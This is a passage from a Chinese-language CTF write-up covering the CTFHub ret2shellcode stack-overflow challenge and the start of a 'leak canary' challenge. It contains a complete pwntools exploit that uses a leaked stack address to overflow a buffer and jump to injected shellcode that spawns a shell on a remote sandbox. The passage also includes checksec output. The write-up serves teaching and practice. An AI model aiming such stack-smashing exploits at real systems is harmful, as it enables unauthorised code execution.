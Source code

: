 ![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2shellcode/2.png)

双击`buf`变量查看其在内存中的虚拟地址信息，构造`payload`时可以先用`0x10`个字节占满`s`变量，然后再加上`r`的`8`个字节。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2shellcode/3.png)

由于`checksec`时发现`NX disabled`，即程序没有开`NX`保护，栈的数据段可以执行。虽然程序中并没有`system()`函数和`/bin/sh`，但是`buf`变量的栈地址被`printf()`函数泄露出来了，因此可以尝试让程序跳转到我们构造的`shellcode`中，并在栈溢出后返回到栈的数据段上执行，就能得到`shell`权限了。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# io = process('ret2shellcode')
io = remote('challenge-90f37d9c89a2800a.sandbox.ctfhub.com', 33884)
io.recvuntil(b'[')
buf_address = int(io.recvuntil(b']')[:-1].decode('utf-8'), 16)
log.success('buf_address => %s' % hex(buf_address).upper())
shellcode_address = buf_address+0x20 # buf与rbp的距离0x10 + rbp的宽度0x8 + 返回地址的长度0x8
log.success('buf_address => %s' % hex(shellcode_address).upper())
shellcode = asm(shellcraft.sh())
payload = b'a'*0x10 + b'fuckpwn!' + p64(shellcode_address) + shellcode
io.recv()
io.sendline(payload)
io.interactive()
```

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2shellcode/4.png)

`ls`可以看到有个`flag`文件，`cat flag`拿到`ctfhub{f878895b3600b2e2192e5c9a}`提交即可。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2shellcode/5.png)

------

### leak canary

先`file ./pwn`查看文件类型再`checksec --file=./pwn`检查文件保护情况。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/ctfhub/leak canary]
└─$ file ./pwn
./pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4ee12047b4e43af214307fb515bc2ee20ed317aa, not stripped
                                                                                                      
┌──(tyd㉿kali-linux)-[~/ctf/pwn/ctfhub/leak canary]
└─$ checksec --file=./pwn
[*] '/home/tyd/ctf/pwn/ctfhub/leak canary/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
